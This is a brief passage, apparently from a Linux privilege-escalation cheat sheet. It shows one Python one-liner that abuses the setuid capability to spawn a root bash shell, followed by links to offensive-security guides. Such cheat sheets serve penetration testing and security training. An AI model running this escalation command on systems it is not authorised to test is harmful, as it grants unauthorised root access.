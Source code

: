 ### Python Capability

```text
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## References:

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
* [https://sushant747.gitbooks.io/total-oscp-guide/content/privilege\_escalation\_-\_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
* [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)
* [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)
* [https://int0x33.medium.com/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e](https://int0x33.medium.com/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e)
* [https://book.hacktricks.xyz/linux-unix/privilege-escalation/](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-limited-bash)
* [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)
* [https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)





